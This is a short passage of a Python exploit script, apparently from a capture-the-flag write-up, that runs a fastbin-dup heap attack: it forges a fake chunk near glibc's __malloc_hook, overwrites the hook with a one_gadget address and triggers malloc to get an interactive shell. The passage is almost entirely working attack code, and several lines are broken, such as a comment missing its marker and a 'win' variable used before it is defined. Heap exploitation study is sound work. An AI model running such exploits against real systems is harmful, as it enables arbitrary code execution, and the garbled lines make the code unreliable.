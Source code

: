 #============ redirecting flow of execution =====

#double free (cuidado con el topfast)
#since we have a stamp date lets try to create fake chunks
#allocating 2 chunks and a top one to anchor
top_fast = malloc(96, "X"*8)
sleep(0.3)
A = malloc(96, p64(0x71) + p64(libc.sym.__malloc_hook-16))#fake chunk near malloc hook
sleep(0.3)
B = malloc(96, "B"*8)
sleep(0.3)
r.timeout = 0.1
#free (not double free lest stack them manually)
free(top_fast)
sleep(0.3)
free(A)
sleep(0.3)
free(B)
sleep(0.3)
#change the stamp 3 times will add 0x10
change(B)
sleep(0.3)
change(B)
sleep(0.3)
change(B)
sleep(0.3)
setting up the fastbindup attack
C = malloc(96, "C"* 32)
sleep(0.3)
D = malloc(96, "D"* 32)
sleep(0.3)
win - 0xdeadbeef
malloc(96, b"A" *11 + win)

win = p64(libc.address + 0xd6701)
#win - 0xdeadbeef
malloc(96, b"A" *11 + win) #add the one_gadget here
sleep(0.3)
malloc(24, "Y") #trigger malloc_hook

#========= interactive ====================
r.interactive()
</code></pre>



<p><br></p>

